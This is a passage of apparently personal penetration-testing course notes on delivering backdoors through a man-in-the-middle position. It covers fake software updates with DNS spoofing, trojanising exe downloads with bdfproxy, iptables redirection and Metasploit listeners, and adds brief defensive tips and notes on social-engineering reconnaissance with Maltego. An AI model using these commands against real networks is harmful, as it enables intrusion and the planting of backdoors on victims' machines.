 In the options, the main thing we are going to change is ==agent==. This is the program that will be installed on updation.

              set agent location_where _backdoor_is
Next option we will modify is ==endsite==, which will be the site loaded once the updation is done. 

              set endsite speedbit.com
Now
          
              start
              
Now, we have to becom MITM by arp spoofing. 
Now do the DNS spoofing

              set dns.spoof.all true
              set dns.spoof.domains domain_we_want_to_spoof(update.speedbit.com)
              dns.spoof on
              
Now we have to ==listen== to incoming connections, using metasploit as shown earlier.

### Backdoor delivery method2 - ==backdooring exe downloads==
The limitation is, this also requires you to be MITM - arp spoofing or fake access point
* Backdoor any exe the target downloads

Set IP address in config - 'leafpad/etc/bdfproxy/bdfproxy.cfg'. Change 'proxyMode' to transparent, and change IP to our_ip (in windows and all other targets)

Start ==bdfproxy==

              bdfproxy
Start arp spoofing

Redirect traffic to bdfproxy

              iptables -t nat -A PREROUTING -p tcp --destination-part 80 -j REDIRECT --to-port 8080
              
Start listening for connections

              msfconsole -r /usr/share/bdfproxy/bdf_proxy_msf_resource.rc

### Protecting against smart delivery methods
* Ensure you're not being MITM'ed -> use trusted networks, xarp.
* Only download from HTTPS pages.
* Check file ==MD5== after download. - 'http://www.winmd5.com/'


## Client Side Attacks - ==Social Engineering==
* Gather info about the user(s).
* Build a strategy based on the info.
* Build a backdoor based on the info.

### Maltego
It is an information gathering tool that can be used to collect information about anything.
* Target can be a website, company, person, ...etc.
* Discover entities associated with target.
* Display info on a graph
* Come up with an attack strategy.
